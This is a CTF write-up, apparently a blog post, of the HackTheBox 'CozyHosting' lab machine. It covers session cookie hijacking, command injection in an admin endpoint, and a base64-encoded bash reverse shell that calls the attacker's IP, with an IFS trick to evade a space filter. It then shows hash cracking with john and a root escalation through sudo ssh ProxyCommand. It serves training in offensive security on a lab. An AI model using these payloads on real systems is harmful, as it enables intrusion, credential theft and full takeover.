 HackTheBox write up: “CozyHosting” Machine
==========================================


](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)


![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


**Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.**

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c3c02c60-5f67-4549-b72e-d91dec6843fe)


We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5f3096be-c5ba-4ede-a450-7b96c86c73e0)


Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/df171dce-4bed-4cf0-9c99-c1a235303f92)


we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/eed4db23-58ae-4ba5-84fc-735bcbbb12f0)


And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/480cc798-d6b1-4544-8ea1-807df7c4e3f6)


After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/39720675-c0e6-4e09-8fdf-b0e9854b87d2)


after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/687529cc-c0f0-4827-ad2c-545c139697ea)


which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/0894c592-d909-4ca0-96c2-2e03d064644f)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/26b6cfd2-e020-4d48-9666-3c57a00fdebf)

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/563a5ea9-f256-4642-bfc8-a0bf72b5e5e7)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/b118bb7c-6327-4de8-b946-e1bb25a7459d)



we can start inspecting this file using tool like jd-gui
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/906a8cca-c720-4475-808b-837b5534946f)


after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads
```
psql -h 127.0.0.1 -U postgres
```
```

\\c cozyhosting
```
```

\\d #to list availabe databases
```

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c7d07dc7-f747-413d-b30a-b5511df006b4)

```
select \* from users; #To select all data in the users database
```


![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/2032451d-df9e-4898-8a5a-75523888c34c)

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )

```
john hash.txt --wordlist=/home/zeronull/rockyou.txt
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/d0966515-7398-4b64-a993-8df4d8349f9b)

now we can try to use this password to ssh into the machine using the user josh

```
ssh josh@10.10.11.230 
```

And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/7086d8bb-afe1-44c8-88a7-edaffc56b70f)


Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/42fe3acc-e0e8-49aa-b3f5-7181f9e65855)


we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/35470ea6-3de5-4d88-a001-c83bcd1a66df)

and by running

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

we get our root access successfully.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/f68ef66e-4fff-438f-ad98-8a7c34087c83)


and thats how we get our root flag.
